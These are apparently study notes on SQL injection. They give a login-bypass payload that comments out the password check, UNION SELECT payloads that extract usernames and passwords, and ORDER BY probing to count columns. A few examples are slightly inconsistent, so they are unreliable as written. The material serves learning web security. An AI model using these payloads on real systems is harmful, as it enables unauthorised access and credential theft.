 Use case with parenthesis and latch to disable `admin` authentication :

```sql
select * from logins where (username='admin' and id > 1) and password='c13ze56dz16e51z6ef1f51';		-- wrong credentials : failed
select * from logins where (username='admin' and id > 1) and password='c13ze56dz16e51z6ef1f51';		-- valid credentials : failed because admin has id = 1
select * from logins where (username='tom' and id > 1) and password='c13ze56dz16e51z6ef1f51';		-- valid credentials : success
```

Input the username `admin')-- -` to bypass authentication :

```sql
select * from logins where (username='admin')-- ' and id > 1) and password='c13ze56dz16e51z6ef1f51';
```

### Union clause

* Combine results with the same number of columns

```sql
SELECT * FROM ports UNION SELECT * FROM ships;
```

The data types of the selected columns on all positions should be the same.

* Combine tables with different numbers of columns (but contain even column !)

```sql
SELECT * FROM products WHERE product_id = 'user_input'
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

Here, the tables contain both `username` and `password`.

* Combine tables with un-even columns

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
UNION SELECT username, 2, 3, 4 from passwords-- -'
SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- -'
```

You want UNION `products` and `passwords` tables but `passwords` contains only 1 column. You must fill the other columns with static values like `2, 3, 4`.

By injection, discover how many columns has the table.

```sql
' order by 1-- -
' order by 2-- -
' order by 3-- -
' order by 4-- -
' order by 5-- -	ERROR
```

The table has 4 columns. Check the displayed columns.
